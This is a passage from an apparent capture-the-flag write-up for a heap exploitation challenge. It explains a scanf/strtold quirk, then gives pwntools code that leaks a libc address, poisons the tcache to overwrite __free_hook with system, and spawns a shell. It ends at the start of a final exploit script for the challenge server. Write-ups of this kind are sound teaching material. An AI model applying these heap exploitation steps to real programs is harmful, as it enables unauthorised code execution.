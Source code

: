 ```c
long double d = __strtold_internal
    (char_buffer_start (&charbuf), &tw, flags & GROUP); // strtold
if (!(flags & SUPPRESS) && tw != char_buffer_start (&charbuf)) // the second part is 
   *ARG (long double *) = d;                                   // the culprit
```
So, the following code will resolve the problem.
```py
a = sell_item('stdnoerr')
tcache = [sell_item(str(i)*8) for i in range(7)]

for i in tcache: buy_item(i)
buy_item(a)

print_items()
p.recvuntil('Name: ')
libc_leak = u64(p.recvline(False).ljust(8, b'\x00'))
libc.address = libc_leak - 0x1ebbe0 # main_arena + 96

manage_item(tcache[-1], p64(libc.sym.__free_hook), new_price = 's')
```
```
Tcachebins[idx=1, size=0x30] count=7  ←  Chunk(addr=0x5591a4d067e0, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x5591a4d06720, size=0x30, flags=PREV_INUSE)  ←  [...]
Tcachebins[idx=7, size=0x90] count=7  ←  Chunk(addr=0x5591a4d06810, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x7fa53fa4bb28, size=0x0, flags=) <--- __free_hook
```
Now, we just need to make an allocation to put `__free_hook` on head and then do another allocation to overwrite `__free_hook`. I used the first allocation to store `/bin/sh` string.
```py
bin_sh = sell_item('/bin/sh')
sell_item(p64(libc.sym.system))
```
I put `/bin/sh` in `name` because `name` member is freed first. Now, we just need to free the chunk containing `/bin/sh`. Just add the following line:
```py
buy_item(bin_sh)
```
And... you get a shell!

# Final exploit
```py
#!/usr/bin/env python3
from pwn import *

indexes = [False]*11

def start():
    global p
    if args.REMOTE:
        p = remote('challenge.ctf.games', 31561)
    else:
        p = elf.process(env = {"LD_PRELOAD": libc.path})

def attach_gdb():
    if args.REMOTE or args.NOGDB:
        return
    
    attach(p, '''
    // for gdb-gef
    heap chunks
    heap bins
    continue
    ''')
    input("ATTACHED?")
```